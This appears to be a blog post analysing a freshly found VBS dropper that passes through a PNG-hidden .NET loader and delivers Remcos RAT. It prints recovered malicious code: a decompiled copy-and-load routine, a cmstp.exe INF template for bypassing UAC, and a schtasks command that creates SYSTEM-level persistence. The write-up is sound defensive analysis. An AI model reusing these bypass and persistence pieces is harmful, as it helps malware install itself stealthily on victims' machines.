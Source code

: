 At the time of writing it is around a day that malicious script appeared in wild. To practice and improve myself I chose this malware.

For now in virustotal, it can be seen that malware is only detected by 9 AVs and the server for downloading second payload (*png* file) is still available to be downloaded. 

Starting with analysis, The file's size is really big but only reason for it was repeat of same 10 lines. 
![1|500](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/1.png?raw=true)

Using ASCII table we can replace all occurrences of these variables with their Char values.

At first it looked like it is only repeating same 10 line for increasing file size (to look legit), but one more reason was probably trying to hide obfuscated code. (Maybe not but only good explanation is this)
![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/2.png?raw=true)

At first it might not make sense but you can obviously see same pattern repeat in obfuscated code:
`"⏳लბ⣿༑₫ᨑԿ🖲ᅫҌ⊣ሒȪ⟚"`

and payload use `categorised(ByVal inputText)` function to deobfuscate it. (By removing repeating line)
![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/3.png?raw=true)

In this situation manually writing deobfuscater  would be possible to but, it is waste of time. I just changed `dozens = categorised(dozens)` with `WScript.Echo categorised(dozens)` (Don't forget to only copy necessary parts in new file to avoid running something dangerous). I ran the code using **cscript.exe** to see output in my **cmd**.

![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/4.png?raw=true)

Now to deobfuscate, we need to replace '#' with 'A' and convert base64 to string. Once again instead of using cyberchef I just run powershell code with removing `Invoke-Expression` and beautify it a little bit. This is the code that downloads second file. (png)

![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/5.png?raw=true)
A day later, the malicious file was deleted from server but I installed it before, so I can continue my analysis. I will also upload file to **malware bazaar** for anyone that needs it to analyse on his own.

This image file has Data starting with '<<BASE64_START>>' and ends with '<<BASE64_END>>' after decoded it is uploaded to memory but I modified code and used function:
```ps1
[System.IO.File]::WriteAllBytes("C:\dnlib_image.dll", $cleared)
```

to save it in a file and when we load this dll to dnspy-x86, it loads it as `Microsoft.Win32.TaskScheduler, Version=1.1.0.0` and dnlib inside, which is necessary part of us:
![1|800](https://raw.githubusercontent.com/basicacc/basicacc.github.io/refs/heads/main/My_analysis/Malware_4/6.png)

You can check out [Robson Felix's VMDetector](https://github.com/robsonfelix/VMDetector)to understand how it works. I modified qemu strings in my system so I have 0 "qemu" string, which helps me avoid detection. this script is really basic as it checks for only "qemu" (easy to stay undetected). 
Note: Even though this malware has function to check detect vms, it doesn't use it. (if you remember the arguments given when VAI is called, they are necessary part of this function)

In next line we can see the malicious code calling specific function that is interesting for us, **VAI**.

![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/7.png?raw=true)


some of the variable names are written in Spanish, which might be a tip for malware writer being Spanish. (Of course, it is not a guarantee) 

I have written custom code in C# to be able to manually debug this dll. 

The functions, VAI didn't use: persistence, startuptask, startupreg (even though it could). (To make it clear these are not function names, these are variables)

Moving on, startup_onstart is actually used, let's understand what it does.
Before understanding the function, I retrivied Hashtable values that are used through dll and saved all of them to single file to make analysis easier.

This is the part we have to analyze now:
```csharp
if (flag12)
{
	bool flag13 = !File.Exists(Path.Combine(caminho, nomedoarquivo + \uE11C.\uE000(12567) + extençao));
	bool flag14 = flag13;
	if (flag14)
	{
		Process.Start(new ProcessStartInfo
		{
			WindowStyle = ProcessWindowStyle.Hidden,
			FileName = \uE11C.\uE000(12607), // "cmd.exe"
			Arguments = string.Concat(new string[]
			{
				// "/C copy *."
				\uE11C.\uE000(12599),
				// "vbs"
				extençao,
				// " \""
				\uE11C.\uE000(12770),
				//  1. @"C:\ProgramData" 2. "millipascals"
				Path.Combine(caminho, nomedoarquivo), 
				// "."
				\uE11C.\uE000(12567),
				// "vbs"
				extençao,
				// "\""
				\uE11C.\uE000(12282)
			})
		}).WaitForExit();
	}
	Loader.ExecutarMetodoVAI(taskname, caminho, nomedoarquivo, extençao);
}
```

Basically checks if file exists, if not, starts new process: 
`cmd.exe /C copy *.vbs "C:\ProgramData\millipascals.vbs" 
copies the vbs file to its new location.

**ExecutarMetodoVAI** is called with arguments: `"blinkered" @"C:\ProgramData"	"millipascals" "vbs"`

at first line, function searches for specific string in resources:
`string text = Array.Find<string>(Assembly.GetExecutingAssembly().GetManifestResourceNames(), new Predicate<string>(Loader.<>c.<>9.\uE000));`

When using dnspy, it hides compiler generated types and modules by default which you need to enable.

The `(Loader.<>c.<>9.\uE000)` sets condition **true** if "string" ends with "UAC.dll"
and in next lines, first stream is loaded into an array and array was loaded to caller program (powershell):
```C#
byte[] array;
using (Stream manifestResourceStream = Assembly.GetExecutingAssembly().GetManifestResourceStream(text))
{
	using (MemoryStream memoryStream = new MemoryStream())
	{
		manifestResourceStream.CopyTo(memoryStream);
		array = memoryStream.ToArray();
	}
}
Assembly assembly = Assembly.Load(array);
```


and calls "Main" method in UAC.dll (type:UAC.Program).

![1|800](https://raw.githubusercontent.com/basicacc/basicacc.github.io/refs/heads/main/My_analysis/Malware_4/8.png)

Which I will use new custom script to run it and debug manually.

First thing "UAC.dll" does is create a new string:
`@"cmd.exe /c powershell -Command ""schtasks /Create /TN 'blinkered' /TR 'wscript.exe C:\ProgramData\millipascals.vbs' /SC ONSTART /RL HIGHEST /RU SYSTEM /F"""` with given parameters.

* Generates new inf file under temporary path.
* Changes "REPLACE_COMMAND_FILE" in `private static string INF_TEMPLATE = "[version]\r\nSignature=$chicago$\r\nAdvancedINF=2.5\r\n\r\n[DefaultInstall]\r\nCustomDestination=CustInstDestSectionAllUsers\r\nRunPreSetupCommands=RunPreSetupCommandsSection\r\n\r\n[RunPreSetupCommandsSection]\r\nREPLACE_COMMAND_LINE\r\ntaskkill /IM cmstp.exe /F\r\n\r\n[CustInstDestSectionAllUsers]\r\n49000,49001=AllUSer_LDIDSection, 7\r\n\r\n[AllUSer_LDIDSection]\r\n\"HKLM\", \"SOFTWARE\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\App Paths\\\\CMMGR32.EXE\", \"ProfileInstallPath\", \"%UnexpectedError%\", \"\"\r\n\r\n[Strings]\r\nServiceName=\"CorpVPN\"\r\nShortSvcName=\"CorpVPN\"";` with the command created before.
* writes this to inf file.

Part 2:
* Checks if file: "C:\Windows\system32\cmstp.exe" exists.
* if it does, Start new process: `C:\Windows\system32\cmstp.exe /au "<inf_file_path>"`
* Basically creates new process to run at every startup for persistence purposes.
* Why use cmstp.exe? To avoid some detections.

That's all with UAC.dll, now we have to go back to `dnlib.IO.Home.VAI`.

To sum up, in next steps malicious dll function launches MsBuild.exe and modifies its code and resumes thread.

* new process: MsBuild.exe created.
* Allocate new space
* Write the malicious program at address: 0x400000

What I did was copy every data that is written and combine them to get a single exe file (Microsoft Visual C++ 8)

```console
copy /b to400000.bin+to401000.bin+to459000.bin+to472000.bin+to478000.bin+to47D000.bin combined.exe
```

So, the reason malware loads the exe file into MsBuild.exe is actually utilizing its capabilities (and hiding). So it might be possible to debug program alone but it is hard, so I will just debug it inside MsBuild.exe. I also found a key point in code like this:
`unaff_ESI = FUN_0040e560(0x400000,0,pcVar7);` which I guess probably where we need to start from, because inside this function, it is also prossible to clearly see some interesting strings.
The strings clearly indicate the capabilities of malware: RAT, keylogger, stealer, logger.

By the way, Remcos RAT is available [here](https://breakingsecurity.net/remcos/free/) to explore its capabilities.

Day 1 of analyzing remcos rat exe file, I found some new functionalities and made changes on ghidra to make it easier to analyze, so far it is really hard to analyze as malware does a lot of things but I will try to analyze key points instead of analyzing everything.